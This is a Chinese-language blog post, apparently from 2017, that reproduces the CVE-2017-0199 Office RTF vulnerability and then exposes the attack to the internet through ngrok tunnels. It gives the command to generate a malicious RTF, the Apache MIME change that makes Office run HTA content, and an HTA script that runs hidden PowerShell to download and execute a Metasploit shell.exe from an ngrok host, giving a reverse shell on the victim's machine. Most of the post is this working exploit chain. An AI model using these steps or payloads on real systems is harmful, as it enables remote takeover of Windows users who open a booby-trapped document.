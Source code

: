 ```yaml
---
title: 对CVE-2017-0199的一次复现过程与内网穿透的利用
date: 2017-4-22 11:41:00
layout: post
tags:
- 漏洞测试
- CVE-2017-0199

---
```

>FireEye最近检测到使用CVE-2017-0199漏洞的恶意Microsoft Office RTF文档，这是以前从未发现的漏洞。
    CVE-2017-0199漏洞发布日期为2017年4月11号，受影响系统包括：
```
       Microsoft Office 2016
       Microsoft Office 2013
       Microsoft Office 2010
       Microsoft Office 2007
```

该漏洞利用OFFICE OLE对象链接技术，将包裹的恶意链接对象嵌在文档中，OFFICE调用[URL Moniker](https://msdn.microsoft.com/en-us/library/ms775149%28v=vs.85%29.aspx)（COM对象）将恶意链接指向的HTA文件下载到本地， [URL Moniker](https://msdn.microsoft.com/en-us/library/ms775149%28v=vs.85%29.aspx)通过识别响应头中content-type的字段信息最后调用mshta.exe将下载到的HTA文件执行起来。

首先我们要用到一个Python脚本用来生成CVE-20170199的利用脚本，项目地址为：[https://github.com/bhdresh/CVE-2017-0199](https://github.com/bhdresh/CVE-2017-0199)
里面有详细的文档就不一一介绍了。
### 生成RTF文件
  使用如下命令进行生成恶意的RTF文件

  `python cve-2017-0199_toolkit.py -M gen -w test.rtf -u http://192.168.0.104/test.rtf`


### 加入POC

  在192.168.0.104根目录下创建一个为test的rtf文件，并且将如下代码写入到该文件中
  ```
  Test CVE-2017-0199
<script>
poc=new ActiveXObject("WScript.Shell");
poc.run('%SystemRoot%/system32/calc.exe ');window.close();
</script>
  ```
### 更改MIME
 在Apache安装目录下找到conf文件夹，把里面的mime.types文件中的
 >application/rtf					rtf

替换为

 >application/hta					rtf

 然后重启Apache

### 执行poc
  重启完Apache后打开恶意的RTF文件你将看到：

  ![](http://console-log.cn/img/calc.jpg)
  wr6666 弹出了计算器

  >你以为只能弹出计算器？
  >
  >这不表结束这只是开始。

### 内网穿透
科普：

      内网穿透即NAT穿透，网络连接时术语，计算机是局域网内时，外网与内网的计算机节点需要连接通，有时就会出现不支持内网穿透。就是说映射端口,能让外网的电脑找到处于内网的电脑,提高下载速度。不管是内网穿透还是其他类型的网络穿透，都是网络穿透的统一方法来研究和解决。在百科词条NAT穿越，nat穿透中有关于网络穿透的详细信息。
-----来自百度百科

简单地说就是将内网的端口映射出去，使得外网的机器可以访问内网的资源。

内网穿透的平台有很多，比如
  >1.[NATAPP 基于 ngrok 高速内网穿透](http://natapp.cn/)
  >
  >2.[Ngrok 国内免费服务器](http://qydev.com/)
  >
  >3.[Sunny-Ngrok 内网转发](http://www.ngrok.cc/)
  >
  >4.[gotunnel.org](http://gotunnel.org/)
  >
  >5.[花生壳软件-内网也能用！内网动态域名](http://hsk.oray.com/)
  >
  >6.[网络通内网端口映射](http://www.dkys.org/)

  这里使用Ngrok进行实验
 注册方式略过。

 HTTP隧道:

 ![](http://console-log.cn/img/ngrok-http.jpg)
 为什么要用HTTP隧道？
 >在后面使用本机的Web环境映射出去,这样就可以通过外网来访问本机的资源（放恶意RTF文件和msf生成的shellcode）

 TCP隧道:

 ![](http://console-log.cn/img/ngrok-tcp.jpg)
  为什么要用TCP隧道？
 >让外网的机器反弹一个shell到TCP隧道然后转发到kali下，这样kali就可以控制外网机器（反弹shell用）

### 内网穿透的利用
  下载对应的客户端版本
  这里用win10测试，建立完成HTTP、TCP隧道后连接隧道，开启本机的apache服务
  他应该是长这样的：
  ![](http://console-log.cn/img/ngrok-connect.jpg)
192.168.0.108是kali 的IP地址 4444为kali监听的地址

用msfvenom生成64位的shellcode（多少位的并不重要,可以直接使用windows/meterpreter/reverse_tcp）此处msfvenom的LHOST和LPORT应该是TCP隧道的IP和端口也就是server.ngrok.cc的IP和刚刚填写的反弹端口（测试用的是1419）
 所以它应该是这样的：

 ![](http://console-log.cn/img/cve-2017-0199-msfvenom.jpg)

然后把shell.exe移到win10的web根目录下
然后msf应该是设置成这样的：
![](http://console-log.cn/img/cve-2017-0199-msf.jpg)
监听的IP是本机的（TCP隧道里填写的映射ip）,端口也是TCP隧道里填写的映射端口

 然后修改下POC并改为：
  ```
  Test
  <script>
  poc=new ActiveXObject("WScript.Shell");
  poc.run('%SystemRoot%/system32/WindowsPowerShell/v1.0/powershell.exe -windowstyle hidden (new-object System.Net.WebClient).DownloadFile(\'http://meterpreter.ngrok.cc/shell.exe\', \'c:/windows/temp/shell.exe\'); c:/windows/temp/shell.exe', 0);window.close();
  </script>

  ```
  保存为test.rtf
 >`http://meterpreter.ngrok.cc/shell.exe 是HTTP隧道把web环境映射到了http://meterpreter.ngrok.cc/所以shell.exe是在本机WEB根目录下的shell.exe`

 然后将恶意的test.rtf（这不是POC的那个test.rtf，是前文用Python脚本生成的test.rtf恶意文件），在外网的机器打开
 ***
 Then 。。。。。
 ***
 休息了下发现隧道的服务器打不开了QAQ。实验没法继续，最后一步就是在外网机器上打开，然后MS将会收到一个会话... 就不贴图了
